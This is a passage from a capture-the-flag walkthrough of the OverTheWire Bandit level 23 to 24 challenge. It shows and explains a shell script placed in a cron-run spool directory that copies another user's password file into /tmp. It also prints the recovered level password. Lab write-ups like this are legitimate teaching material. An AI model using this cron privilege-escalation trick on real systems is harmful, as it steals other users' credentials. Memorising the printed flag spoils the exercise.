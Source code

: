 This copies `bandit23_script.sh` into the folder, we could specify a new name for it (if we wanted) after the `foo/`.

As this executes every minute, we need to wait. After some time we will have the password in our file:
```bash
bandit23@bandit:~$ cat /tmp/sealldev_bandit24
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

## One-liner

```bash
F="/tmp/bandit24_pass_sealldev";G="/tmp/bandit$$.sh";echo "#!/bin/bash" > $G; echo "cat /etc/bandit_pass/bandit24 > $F" >> $G; chmod +x $G; cp $G /var/spool/bandit24/foo/; while [ ! -e $F ]; do sleep 0.1; done; cat $F
```

Ok ok... It's not that scary I promise

Firstly, let's break it up into 1 command per line.

```bash
F="/tmp/bandit24_pass_sealldev"
G="/tmp/bandit$$.sh"

echo "#!/bin/bash" > $G
echo "cat /etc/bandit_pass/bandit24 > $F" >> $G;

chmod +x $G

cp $G /var/spool/bandit24/foo/

while [ ! -e $F ];
  do sleep 0.1;
done

cat $F
```

Start by defining 2 variables, `F` is the location of the output file and `G` is the location of the script we make.

Note that `$$` is just the process ID, so just a unique number to this process.

```bash
F="/tmp/bandit24_pass_sealldev"
G="/tmp/bandit$$.sh"
```

The difference between `>` and `>>` is write vs append, we write out file contents.

```bash
echo "#!/bin/bash" > $G
echo "cat /etc/bandit_pass/bandit24 > $F" >> $G;
```
